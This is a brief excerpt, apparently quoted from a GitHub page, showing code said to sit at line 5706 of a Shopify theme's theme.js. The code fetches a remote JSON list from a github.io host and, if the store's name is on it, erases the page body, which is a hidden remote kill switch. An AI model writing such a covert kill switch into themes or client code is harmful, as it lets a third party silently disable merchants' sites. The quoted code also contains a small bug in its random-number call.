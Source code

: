 theme.js  line 5706

function getRandomInt(min, max) {
    min = Math.ceil(min);
    max = Math.floor(max);
    return Math.floor(Math.random() * (max - min + 1)) + min;
}

fetch('https://digitalbrandz.github.io/animations/animate.json?'+ getRandomInt(999999999))
  .then(res => res.json())
  .then((out) => {
       var shopname = window.Shopify.shop.replace('.myshopify.com','');
   console.log(out);
   if(out.websites.includes(shopname)) {
     document.body.innerHTML = "";
   };
}).catch(err => console.error(err));  

      
      
